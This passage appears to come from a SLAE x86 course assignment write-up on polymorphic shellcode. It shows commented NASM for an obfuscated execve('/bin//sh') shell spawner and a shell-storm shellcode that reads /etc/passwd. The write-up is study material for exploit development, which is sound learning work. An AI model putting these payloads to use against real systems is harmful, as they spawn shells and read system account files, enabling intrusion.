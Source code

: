 ### Polymorphic Version
Explanation of each lines are added as comments in the code:
```nasm
global _start

section .text

_start:
  mov ebx, 0xdcd2c45e        ; ebx =  twice the value of '/bin'
  shr ebx, 0x1               ; divide ebx by 2, once
                             ; src: https://www.felixcloutier.com/x86/sal:sar:shl:shr
  xor ecx, ecx               ; clear ecx
  push ecx                   ; push NULL
  push word 0x2f2f           ; push '//'
  mul ecx                    ; clear eax and edx
  mov al, 0xb                ; set execve
  mov word [esp+2], 0x6873   ; complete the '//sh' in esp
  push ebx                   ; push '/bin'
  mov ebx, esp               ; ebx = address of esp
  int 0x80                   ; syscall
```

### Shellcode Testing
Used the [Ruby script](#ruby-script) to make the compilation of the binary easier.

![](tiny_execve_sh.gif)

## Tiny Read File Shellcode
### Original Shellcode
- Source: http://shell-storm.org/shellcode/files/shellcode-842.php
- This will read `/etc/passwd` file, the same purpose with the shellcode in [Shellcode Analysis assignment](../slae_x86_a5#msf-read-file-shellcode)
```nasm
global _start

section .text

_start:
  xor ecx, ecx
  mul ecx
  mov al, 0x5
  push ecx
  push dword 0x64777373
  push dword 0x61702f63
  push dword 0x74652f2f
  mov ebx, esp
  int 0x80
  xchg eax, ebx
  xchg eax, ecx
  mov al, 0x3
  xor edx, edx
  mov dx, 0xfff
  inc edx
  int 0x80
  xchg eax, edx
  xor eax, eax
  mov al, 0x4
  mov bl, 0x1
  int 0x80
  xchg eax, ebx
  int 0x80
```